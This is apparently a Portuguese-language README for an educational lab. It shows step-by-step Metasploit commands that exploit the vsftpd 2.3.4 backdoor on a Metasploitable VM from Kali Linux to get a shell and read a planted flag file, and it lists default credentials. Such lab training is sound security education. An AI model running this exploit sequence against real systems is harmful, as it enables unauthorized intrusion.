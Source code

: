 
# Exploração de Vulnerabilidades no FTP com Metasploit

## 🛠️ Ferramentas Necessárias
- 💻 Kali Linux
- 🖥️ Metasploitable (máquina virtual vulnerável)

---

## 🔍 Passos para a Exploração

### 1️⃣ Configuração no Kali Linux

1. **Acessar como administrador:**
   ```bash
   sudo su
   kali  # senha padrão
   ```

2. **Iniciar o Metasploit Console:**
   ```bash
   msfconsole
   ```
   O **msfconsole** é a interface principal do Metasploit, onde os exploits são configurados e executados.

3. **Procurar por vulnerabilidades no FTP:**
   ```bash
   search vsftpd
   info exploit/unix/ftp/vsftpd_234_backdoor
   ```

4. **Configurar o exploit e definir o alvo:**
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS X.X.X.X  # IP da máquina Metasploitable
   show options  # Verificar a configuração
   ```

5. **Definir o payload e executar:**
   ```bash
   set payload payload/cmd/unix/interact
   exploit
   ```

6. **Pós-exploração:**
   Localizar e abrir o arquivo "flag.txt":
   ```bash
   cd home/msfadmin
   nano flag.txt
   ```

### 2️⃣ Configuração na Máquina Metasploitable

1. **Acessar com credenciais padrão:**
   ```bash
   msfadmin
   msfadmin
   ```

2. **Criar o arquivo "flag.txt":**
   ```bash
   echo "Isso é uma flag!" > flag.txt
   ```

3. **Identificar o IP da máquina:**
   ```bash
   ip addr
   ```

---

## ⚠️ Atenção
Este projeto é apenas para fins educacionais. Não utilize para fins maliciosos.

## 📊 Resultados
O ataque foi **realizado com sucesso** no ambiente controlado usando o Kali Linux e o Metasploitable. A exploração resultou na localização do arquivo **flag.txt** na máquina vulnerável, demonstrando a eficácia da abordagem.
